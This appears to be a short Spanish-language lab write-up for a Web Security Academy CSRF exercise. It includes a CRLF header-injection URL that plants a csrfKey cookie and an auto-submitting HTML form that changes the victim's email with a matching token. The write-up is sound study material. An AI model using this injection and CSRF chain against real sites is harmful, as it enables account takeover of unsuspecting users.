 
![[Pasted image 20250225163309.png]]

Las combinaciones de csrf key - csrf token son válidas para cualquier sesión.

Por lo que tenemos que hacer que el usuario primero inyecte la cookie csrf key y luego enviar el csrf token en el post al cambiar el correo.

Para inyectar la cookie, tendría que hacer un fetch a :
```
https://0a10000d0327290d8097fd6400920097.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=VtTjnFHqWa5mjL2xYkF6JNDk3kJsk8oU%3b%20SameSite=None
```

Luego cuando hagamos el csrf , proporcionamos el token:

```html
<html>
  <!-- Añadimos la cookie csrfKey -->
	<script>fetch('https://0a10000d0327290d8097fd6400920097.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=VtTjnFHqWa5mjL2xYkF6JNDk3kJsk8oU%3b%20SameSite=None',{credentials:'include'})</script>
  <!-- Enviamos el csrf token que se corresponde con la key -->
  <body>
    <form action="https://0a10000d0327290d8097fd6400920097.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test0000&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="6L2N9HUMHoG1V1RB1RIYfM6PYPgMQZEb" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Los navegadores modernos no permiten modificar las cookies porque los navegadores modernos **bloquean la modificación manual de la cabecera `Cookie` desde JavaScript**.

En el contexto de un XSS, podemos crear cookies, pero para el dominio en el que está el XSS.
